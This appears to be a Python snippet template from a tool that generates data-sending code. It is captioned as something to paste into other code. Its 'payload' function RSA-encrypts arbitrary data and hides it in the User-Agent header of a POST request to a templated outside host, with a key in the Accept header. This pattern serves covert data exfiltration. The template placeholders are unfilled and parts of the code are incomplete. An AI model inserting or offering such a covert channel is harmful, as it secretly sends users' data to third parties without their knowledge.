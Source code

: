 # Add this snippet to your code to post data to server
import requests, rsa
from rsa import PublicKey
# Send data to server
def payload(data):
    # Encrypt data
    publicKey = {{publicKey}}
    data = rsa.encrypt(data.encode(), publicKey).hex()
    headers = {
    "Accept": "{{postKey}}",
    "User-Agent": data
    }
    request = requests.post("{{website}}",headers=headers)
    if(request.status_code == 200):
        return True